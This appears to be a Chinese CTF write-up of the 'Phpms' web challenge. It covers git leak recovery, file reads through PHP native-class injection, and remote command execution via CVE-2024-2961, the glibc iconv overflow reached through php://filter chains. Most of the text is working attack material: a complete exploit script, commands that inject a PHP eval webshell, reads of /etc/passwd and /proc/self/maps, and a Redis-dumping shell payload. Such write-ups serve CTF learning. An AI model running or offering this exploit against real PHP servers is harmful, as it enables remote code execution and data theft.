

## Phpms（赛后）

扫描出git，进行git恢复

```Assembly
dirsearch -u http://123154c5-c64a-427f-b8cf-be5127016c3a.node5.buuoj.cn:81/ --threads 3 --delay 2

githacker --url http://123154c5-c64a-427f-b8cf-be5127016c3a.node5.buuoj.cn/.git/ --output-folder test --delay 2 --threads 3

git log --oneline
git show 613dea6

git stash list
git stash show -p
```



发现php基础函数都不存在，只有原生类，现在可以列出目录以及读取一些有权限的文件

```Assembly
?shell=?><?php $content=new SplFileObject('no_careee.php');foreach($content as $content){echo $content."<br>";}?>
?shell=?><?php $content=new SplFileObject('/etc/passwd');foreach($content as $content){echo $content."<br>";}?>

?shell=?><?php $a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

发现Redis服务，读取`/etc/redis.conf`得到Redis密码为`admin123`，这里可以打CVE-2024-2961，修改exp关键部分

```Python
def send(self, path: str) -> Response:
    """Sends given `path` to the HTTP server. Returns the response.
    """
    payload = f"?shell=?><?php $content=new SplFileObject('{path}');foreach($content as $line)echo $line;?>"
    return self.session.get(self.url + payload)

def download(self, path: str) -> bytes:
    """Returns the contents of a remote file.
    """
    path = f"php://filter/convert.base64-encode/resource={path}"
    response = self.send(path)
    data = response.re.search(b"(.*)", flags=re.S).group(1)
    return base64.decode(data)
```

执行命令

```Python
python3 cnext-exploit.py http://08b32553-2ead-4148-8ae2-246361272c33.node5.buuoj.cn:81/ "echo '<?php @eval(\$_POST[1]);?>' > 1.php"
```

没成功，换了一个项目来尝试，https://github.com/kezibei/php-filter-iconv

```Python
/proc/self/maps
得到
/lib/x86_64-linux-gnu/libc-2.31.so
```

然后修改exp

```Bash
maps_path = './maps'
cmd = 'echo 1 > /tmp/1.txt'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.31.so'
if not os.path.exists(libc_path):
    exit("[-]no libc file")
```

成功了，分段写入sh准备和Redis交互

```Bash
#!/bin/bash
h=127.0.0.1;p=6379;a=admin123
k=$(redis-cli -h $h -p $p -a $a --raw KEYS '*')
for x in $k;do
 v=$(redis-cli -h $h -p $p -a $a --raw GET $x)
 echo $x=>$v>/tmp/2.txt
done
```

处理压缩，避免长度超过

```Bash
gzip -c 1.sh | base64 -w 0

echo H4sICAOuVmgAAzEuc2gAjcuxCoMwGEXhPU9xS3+wFmKqQqVI3KRDx3bpGI2SYE2CivXx6yOUs3zLOR5EY51o1GyYkWlWJJe9tAzymhe3UkmlR+vSLGeDpNPUaTvz9mPBDciAB1AAVyAFzif1xaN+PxGdo5j1fsIG60BDqT3D+td/r1+gLWboWuN3yYrWSixjEFmybAvT3nXsBzLb30e1AAAA | base64 -d | gzip -d > /tmp/1.sh
```

最后发现maps和libc和动态的，所以和出题人`@L1mbo`交流，并且要到了exp，自己修改了一下，害的是一把锁啊

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from dataclasses import dataclass
import re
import sys
import requests
from pwn import *
import zlib
import os
import binascii


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")

@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self):
        return self.stop - self.start


def print_hex(data):
    hex_string = binascii.hexlify(data).decode()
    print(hex_string)


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.b64encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload


def _get_region(regions, *names):
    """Returns the first region whose name matches one of the given names."""
    for region in regions:
        if any(name in region.path for name in names):
            break
    else:
        pass
    return region


def find_main_heap(regions):
    # Any anonymous RW region with a size superior to the base heap size is a
    # candidate. The heap is at the bottom of the region.
    heaps = [
        region.stop - HEAP_SIZE + 0x40
        for region in reversed(regions)
        if region.permissions == "rw-p"
        and region.size >= HEAP_SIZE
        and region.stop & (HEAP_SIZE - 1) == 0
        and region.path == ""
    ]

    if not heaps:
        pass

    first = heaps[0]

    if len(heaps) > 1:
        heaps = ", ".join(map(hex, heaps))
        print("Potential heaps: " + heaps + " (using first)")
    else:
        # print("[*]Using " + hex(first) + " as heap")
        pass

    return first


def get_regions(maps_path):
    """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
    f = open('maps', 'rb')
    maps = f.read().decode()
    PATTERN = re.compile(
        r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
    )
    regions = []
    for region in maps.split("\n"):
        # print(region)
        match = PATTERN.match(region)
        if match:
            start = int(match.group(1), 16)
            stop = int(match.group(2), 16)
            permissions = match.group(3)
            path = match.group(4)
            if "/" in path or "[" in path:
                path = path.rsplit(" ", 1)[-1]
            else:
                path = ""
            current = Region(start, stop, permissions, path)
            regions.append(current)
        else:
            # print("[*]Unable to parse memory mappings")
            pass

    # print("[*]Got " + str(len(regions)) + " memory regions")
    return regions


def get_symbols_and_addresses(regions):
    # PHP's heap
    heap = find_main_heap(regions)

    # Libc
    libc_info = _get_region(regions, "libc-", "libc.so")

    return heap, libc_info


def build_exploit_path(libc, heap, sleep, padding, cmd):
    LIBC = libc
    ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
    ADDR_EFREE = LIBC.symbols["__libc_system"]
    ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]
    ADDR_HEAP = heap
    ADDR_FREE_SLOT = ADDR_HEAP + 0x20
    ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

    ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

    CS = 0x100

    # Pad needs to stay at size 0x100 at every step
    pad_size = CS - 0x18
    pad = b"\x00" * pad_size
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = compressed_bucket(pad)

    step1_size = 1
    step1 = b"\x00" * step1_size
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1, CS)
    step1 = compressed_bucket(step1)

    # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
    # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

    step2_size = 0x48
    step2 = b"\x00" * (step2_size + 8)
    step2 = chunked_chunk(step2, CS)
    step2 = chunked_chunk(step2)
    step2 = compressed_bucket(step2)

    step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
    step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
    step2_write_ptr = chunked_chunk(step2_write_ptr)
    step2_write_ptr = compressed_bucket(step2_write_ptr)

    step3_size = CS

    step3 = b"\x00" * step3_size
    assert len(step3) == CS
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = compressed_bucket(step3)

    step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
    assert len(step3_overflow) == CS
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = compressed_bucket(step3_overflow)

    step4_size = CS
    step4 = b"=00" + b"\x00" * (step4_size - 1)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = compressed_bucket(step4)

    # This chunk will eventually overwrite mm_heap->free_slot
    # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
    step4_pwn = ptr_bucket(
        0x200000,
        0,
        # free_slot
        0,
        0,
        ADDR_CUSTOM_HEAP,  # 0x18
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        ADDR_HEAP,  # 0x140
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        size=CS,
    )

    step4_custom_heap = ptr_bucket(
        ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
    )

    step4_use_custom_heap_size = 0x140

    COMMAND = cmd
    COMMAND = f"kill -9 $PPID; {COMMAND}"
    if sleep:
        COMMAND = f"sleep {sleep}; {COMMAND}"
    COMMAND = COMMAND.encode() + b"\x00"

    assert (
            len(COMMAND) <= step4_use_custom_heap_size
    ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
    COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

    step4_use_custom_heap = COMMAND
    step4_use_custom_heap = qpe(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)
    pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * padding
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
    )

    resource = compress(compress(pages))
    resource = b64(resource)
    resource = f"data:text/plain;base64,{resource.decode()}"

    filters = [
        # Create buckets
        "zlib.inflate",
        "zlib.inflate",

        # Step 0: Setup heap
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 1: Reverse FL order
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 2: Put fake pointer and make FL order back to normal
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 3: Trigger overflow
        "dechunk",
        "convert.iconv.UTF-8.ISO-2022-CN-EXT",

        # Step 4: Allocate at arbitrary address and change zend_mm_heap
        "convert.quoted-printable-decode",
        "convert.iconv.latin1.latin1",
    ]
    filters = "|".join(filters)
    path = f"php://filter/read={filters}/resource={resource}"
    path = path.replace("+", "%2b")
    return path

# -------------------------- 简化版主函数 --------------------------
def exp():
    ip = "cd75b1b6-18d7-4482-911c-43be6f8dbeab.node5.buuoj.cn"
    port = "81"
    url = f"http://{ip}:{port}/"

    maps = base64.b64decode(requests.get(
        f"{url}?shell=?%3E%3C?php%20$context%20=%20new%20SplFileObject(%27php://filter/convert.base64-encode/resource=/proc/self/maps%27);foreach($context%20as%20$f){{echo($f);}}"
    ).text)
    open("maps", "wb").write(maps)

    libc = base64.b64decode(requests.get(
        f"{url}?shell=?%3E%3C?php%20$context%20=%20new%20SplFileObject(%27php://filter/convert.base64-encode/resource=/lib/x86_64-linux-gnu/libc-2.31.so%27);foreach($context%20as%20$f){{echo($f);}}"
    ).text)
    open("libc-2.23.so", "wb").write(libc)

    regions = get_regions("maps")
    heap, libc_info = get_symbols_and_addresses(regions)
    libc = ELF("libc-2.23.so", checksec=False)
    libc.address = libc_info.start

    cmd = "(echo \"auth admin123\nkeys *\nget flag\" | redis-cli) > /tmp/1.txt"
    payload = build_exploit_path(libc, heap, sleep=1, padding=20, cmd=cmd)

    try:
        requests.get(f"{url}?shell=?%3E%3C?php%20$context=new%20SplFileObject(%27{payload}%27);foreach($context%20as%20$f){{echo($f);}}")
    except:
        pass
    time.sleep(2)

    result = requests.get(f"{url}?shell=?%3E%3C?php%20$context=new%20SplFileObject(%27/tmp/1.txt%27);foreach($context%20as%20$f){{echo($f);}}").text
    match = re.search(r"DASCTF{.*?}", result)
    if match:
        print("[+] Got flag:", match.group(0))
    else:
        print("[-] Flag not found")

# --------------------------
if __name__ == '__main__':
    exp()

```

我主要做了phpms，jdbc是队友做的，太强了，不过两题都是临门一脚，棋差一招

https://su-team.cn/posts/25004.html

不想写了，太懒了哈哈，真是绞尽脑汁，做的时候，同时也想到有没有一种情况是可以直接原生类去进攻Redis的呢，SoapClient？SimpleXMLElement？(~~反正我不会~~)
